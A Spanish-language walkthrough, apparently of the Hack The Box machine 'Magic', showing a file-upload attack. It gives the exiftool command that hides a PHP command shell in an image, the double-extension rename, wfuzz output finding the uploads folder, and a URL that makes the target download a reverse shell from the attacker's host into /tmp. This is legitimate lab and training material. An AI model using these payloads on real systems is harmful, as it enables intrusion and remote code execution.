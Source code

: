 Tenemos una utilidad que nos permite subir imágenes al servidor, vamos a aprovecharnos de esto para poder lograr ejecutar comandos a nivel de sistema.

Para ello tomo una imagen cualquiera y en los metadatos le voy a meter una shell en php.

```console
intrusionz3r0@Kali:~$ exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' imagen.png
intrusionz3r0@Kali:~$ mv imagen.png imagen.php.png
```

Subo la imagen.

![](https://lh3.googleusercontent.com/1bpq5JXNyIyFsDdjLe_oS3gbnpgVxNJwjMBG5jxqHKuR3KBUXSZ2pQDCzvDqSrEqbfzuxlVay3bBGanJ1nW5z93kSGQWd2878eQlpCU_-WURjNpLpPWlEKKnPpFnD7wp1o2jN5F5)


Ahora debemos buscar donde se suben las imágenes.

Si recuerdas anteriormente habíamos encontrado la ruta `images`, por lo que vamos a fuzzear nuevamente a ver si encontramos la ruta donde se suben las imágenes.

```console
intrusionz3r0@Kali:~$ wfuzz -c --hc 403,404 -t 200 -w /usr/share/wordlists/dirb/common.txt http://magic.htb/images/FUZZ

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://magic.htb/images/FUZZ
Total requests: 4614

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                                                                 
===================================================================

000004216:   301        9 L      28 W     315 Ch      "uploads"
```
**¡¡Eureka!!**

Nos dirigimos a nuestra imagen y vemos que nuestra shell en php se interpreta.

![](https://lh6.googleusercontent.com/QwjEP9K7eAkDUiVgn-BYgHhDl0BKQwIvpkqn_MYUplWfoIg8XNoeytkGgUv5nI2B4oVUhXYEJwZvwLoYbVY5S2SL0zGHZYX1fczwv2CS-IspWxmyC8ipYO00l1y3egH5OiPAbkCz)

Ahora nosotros podemos ejecutar comandos agregando el parámetro cmd.

![](https://lh6.googleusercontent.com/-_CscEoLovZw5gUct8wCparEnlNtoDuIViOdl6nehISzptFNTnZ6ZhRjj1G3yqjZh4DLbPSH0PW7tK-Qw3WN2epeYogCdntgt05ocjgLtdutea8R_4d8MAvXbjDe-z10WVZouoXQ)

Ahora que podemos ejecutar comandos necesitamos obtener una shell completa, para ello utilizare la `php-reverse-shell.php` que viene incluida en kali.

```console
intrusionz3r0@Kali:~$ cp /usr/share/webshells/php/php-reverse-shell.php .
intrusionz3r0@Kali:~$ nano php-reverse-shell.php #Asegurate de editar la ip con la tuya.
intrusionz3r0@Kali:~$ mv php-reverse-shell.php z3r0.php
```
Levantamos un servidor con python.
```python
intrusionz3r0@Kali:~$ sudo python -m SimpleHTTPServer 80
```
Descargamos z3r0.php en la máquina y lo guardamos en `/tmp` para después ejecutarlo.
> http://magic.htb/images/uploads/imagen.php.png?cmd=wget http://10.10.14.7/z3r0.php-O /tmp/z3r0.php
